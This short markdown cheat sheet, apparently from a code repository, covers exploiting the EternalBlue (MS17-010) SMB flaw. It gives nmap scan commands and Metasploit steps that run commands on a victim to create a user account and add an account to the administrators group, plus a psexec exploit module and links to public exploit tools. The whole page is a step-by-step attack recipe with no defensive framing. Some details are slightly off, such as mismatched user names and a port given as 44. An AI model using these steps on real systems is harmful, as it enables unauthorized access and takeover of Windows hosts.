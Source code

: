 ## eternal blue (ms17_010)

nmap nse:
- nmap -v --script vuln [victim_ip] -p 445,139
- nmap -sV -script smb-vuln-ms17-010.nse [victim_ip] -p 139,44

## eternal blue commands(via metasploit)
- use auxiliary/admin/smb/ms17_010_command
- set rhosts [victim_ip]
- set rport 445
- **set command net user test test123! /add**
- run
- **set command net localgroup administrators tester /add**
- run
## eternal blue psexec (via metasploit)
- use exploit/windows/smb/ms17_010_psexec
- set rhosts [victim_ip]
- run

### tools
- https://github.com/worawit/MS17-010
- https://github.com/3ndG4me/AutoBlue-MS17-010
- https://github.com/sailay1996/eternal-pulsar
- https://gist.github.com/thel3l/993f8ed81a56e10525dd4812ad01ff2a
